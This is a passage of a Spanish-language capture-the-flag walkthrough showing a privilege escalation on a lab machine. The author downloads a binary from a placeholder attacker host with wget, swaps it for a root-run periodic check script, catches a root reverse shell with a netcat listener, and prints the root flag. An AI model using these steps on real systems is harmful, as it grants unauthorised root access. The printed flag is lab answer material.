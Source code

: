 Ahora vamos a abrir un servidor de `python3` para pasarnos el archivo.

```shell
python3 -m http.server 80
```

Seguidamente estaremos a la escucha desde otra pestaña de terminal:

```shell
nc -lvnp <PORT>
```

Desde la maquina victima, vamos a ejecutar lo siguiente:

```shell
cd /tmp
wget http://<IP_ATTACKER>/monitor
chmod +x monitor
rm /opt/AV/periodic-checks/monitor
mv monitor /opt/AV/periodic-checks/
```

Si esperamos un poco y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.79] 57240
bash: cannot set terminal process group (101416): Inappropriate ioctl for device
bash: no job control in this shell
root@era:~# whoami
whoami
root
```

Veremos que ha funcionado, con esto ya seremos `root`, por lo que vamos a leer la `flag` de `root`.

> root.txt

```
be7d13252b4df650acbec1c6e7193ffa
```
